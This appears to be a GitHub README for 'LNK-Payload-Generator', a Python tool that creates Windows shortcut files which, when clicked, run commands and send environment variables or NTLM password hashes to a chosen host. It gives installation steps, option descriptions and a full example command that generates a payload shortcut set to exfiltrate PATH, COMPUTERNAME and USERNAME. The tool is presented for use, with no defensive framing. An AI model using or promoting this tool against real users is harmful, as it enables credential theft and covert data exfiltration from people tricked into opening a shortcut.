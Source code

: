 # LNK-Payload-Generator

LNK-Payload-Generator is a Python script that generates Windows shortcut files (LNK) with specific commands and configurations. These shortcuts can exfiltrate data or execute specific commands when clicked.

## Features

- Generate LNK files for both Windows and non-Windows systems
- Customize the command to execute upon clicking the shortcut
- Exfiltrate specified environment variables or NTLM password hashes
- Supports English, Russian, and Chinese languages

## Requirements

- Python 3.x
- For Windows: `pywin32` module
- For non-Windows: `pylnk` module

## Installation

1. Clone the repository:
    ```bash
    git clone https://github.com/your-username/LNK-Payload-Generator.git
    cd LNK-Payload-Generator
    ```

2. Install the required modules:
    ```bash
    pip install -r requirements.txt
    ```

## Usage

1. Run the script with the desired options:
    ```bash
    python lnk_payload_generator.py --lang <language> --host <host> --output <output.lnk> [--execute <command>] [--vars <variables>] [--type <type>]
    ```

2. Example:
    ```bash
    python lnk_payload_generator.py --lang en --host example.com --output payload.lnk --execute "notepad.exe" --vars "PATH,COMPUTERNAME,USERNAME" --type environment
    ```

## Options

- `--lang`: Choose language: en, ru, zh
- `--host`: Where should we send our data?
- `--output`: The name of the lnk file
- `--execute`: Command to execute when the shortcut is clicked (default: `C:\Windows\explorer.exe .`)
- `--vars`: Variables to exfiltrate, e.g., "PATH,COMPUTERNAME,USERNAME,NUMBER_OF_PROCESSORS"
- `--type`: Payload type to generate (choices: `environment`, `ntlm`, `all`)

## Documentation

Detailed documentation is available in the `docs` folder.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Contributing

Contributions are welcome! Please read the [CONTRIBUTING.md](CONTRIBUTING.md) for guidelines.

